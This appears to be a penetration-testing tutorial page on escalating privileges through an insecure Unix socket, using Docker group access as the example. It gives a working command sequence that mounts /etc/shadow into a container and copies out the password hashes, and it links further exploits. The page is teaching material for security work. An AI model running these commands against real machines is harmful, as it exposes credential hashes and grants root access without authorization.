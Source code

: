 # Unix Socket Exploitation

A Unix socket is another component in \*nix systems that you can leverage to escalate your privileges.To safely use a Unix socket, the appropriate security measures/permissions must be implemented beforehand. As you can imagine, this is not always the case.

#### The easiest to follow example on how to leverage an insufficiently secured Unix socket is Docker. By design, the docker daemon binds to a Unix socket instead of a TCP port. By default, that Unix socket is owned by the user root; additionally, the docker daemon always runs as the root user.

Suppose you landed on a machine and the current user is an unprivileged user, that happens to have access to the docker command \(he is part of docker group\). Also, suppose that the docker Unix socket is not protected by implementing the appropriate permissions.



Let’s see how we could escalate our privileges in that machine. Specifically, let try to access /etc/shadow.

```text
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres
docker exec -ti {CONTAINER_ID} bash
root@XXXXXXXXXXXX:/# cat /docker/hashedpasswords > /docker/test.txt
root@XXXXXXXXXXXX:/# chmod 777 /docker/test.txt
root@XXXXXXXXXXXX:/# cat /docker/test.txt
```

![](../../../../.gitbook/assets/image%20%2822%29.png)

Two more interesting examples on leveraging Unix sockets for privilege escalation are the following:  
  
[https://www.exploit-db.com/exploits/40962/](https://www.exploit-db.com/exploits/40962/)  
[https://github.com/rapid7/metasploit-framework/pull/9408/files](https://github.com/rapid7/metasploit-framework/pull/9408/files)  




